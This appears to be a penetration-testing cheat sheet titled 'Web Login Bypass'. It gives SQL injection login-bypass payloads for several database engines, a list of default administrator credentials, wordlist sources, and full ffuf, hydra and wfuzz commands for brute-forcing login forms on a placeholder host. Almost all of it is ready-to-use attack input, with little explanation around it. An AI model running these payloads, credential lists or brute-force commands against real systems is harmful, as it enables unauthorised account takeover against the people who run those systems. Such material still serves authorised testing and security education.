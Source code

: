 ```yaml
---
title: Web Login Bypass
desc: 
tags: [Burp, Ffuf, Hydra, Login, Password, SQLi, Web, Wfuzz]
alts: [Web-Basic-Pentesting, Web-Content-Discovery]
render_with_liquid: false
---
```


## SQL Injections

```
admin' or '1'='1
```

- **Microsoft, Oracle, PostgreSQL**

    ```
    admin'--
    admin' or 1=1--
    ```

- **MySQL**

    ```
    admin'-- [need to add space after '--']
    admin'#
    admin' or 1=1#
    ```

- **Mongo**

    ```
    admin' || 1==1//
    admin' || 1==1%00
    admin' || '1==1
    ```

<br />

## Default Credentials

```sh
admin:admin
admin:password
admin:password1
admin:password123
administrator:password
administrator:password1
administrator:password123

# phpIPAM
admin:ipamadmin
Admin:ipamadmin

# PHPMyAdmin
root:(null)
root:password
```

<br />

## Brute Force Credentials

1. **Prepare Wordlists**

    - **Rockyou**

        It is often located in **"/usr/share/wordlists/rockyou.txt"** in Linux.

    - **[SecLists](https://github.com/danielmiessler/SecLists){:target="_blank"}**

        It is often located in **"/usr/share/seclists"** in Linux.

    - **[CeWL](https://github.com/digininja/CeWL){:target="_blank"}**

        Generate the custom wordlist from the target web page.
    
        ```sh
        cewl https://vulnerable.com > scraped_words.txt
        ```

2. **Brute Force using Tools**

    - **Ffuf**

        ```sh
        # -fc: Filter HTTP status code
        ffuf -w passwords -X POST -d "username=admin&password=FUZZ" -u http://vulnerable.com/login -fc 401
        ```

    - **Hydra**

        ```sh
        # Cracking username
        hydra -L usernames.txt -p password vulnerable.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid username"
        # Cracking password
        hydra -l username -P passwords.txt vulnerable.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid password"

        # HTTPS (https-post-form)
        hydra -L usernames.txt -P passwords.txt vulnerable.com https-post-form "/login:username=^USER^&password=^PASS^:Username or password is incorrect"

        
        # Cracking the Authorization or WWW-Authenticate in the request header.
        hydra -L usernames.txt -P passwords.txt <target-ip> http-get
        ```

    - **Wfuzz**

        ```sh
        # Cracking username
        wfuzz -z file,./usernames.txt -d "username=FUZZ&password=password" https://vulnerable.com/login
        # Cracking password
        wfuzz -z file,./passwords.txt -d "username=admin&password=FUZZ" https://vulnerable.com/login

        # -- Options --------------------------------------------------------------------------------------------

        # --hc: Hide the specific status code
        wfuzz -z file,./usernames.txt -d "username=FUZZ&password=password" --hc 302 http://vulnerable.com/login
        # --hh: Hide the specific chars (Content-Length)
        wfuzz -z file,./passwords.txt -d "username=admin&password=FUZZ" --hh 783 http://vulnerable.com/login

        # --sc: Show the specific statuc code
        wfuzz -z file,./usernames.txt -d "username=FUZZ&password=password" --sc 302 http://vulnerable.com/login
        # --sh: Show the specific chars (Content-Length)
        wfuzz -z file,./passwords.txt -d "username=admin&password=FUZZ" --sh 1214 http://vulnerable.com/login
        ```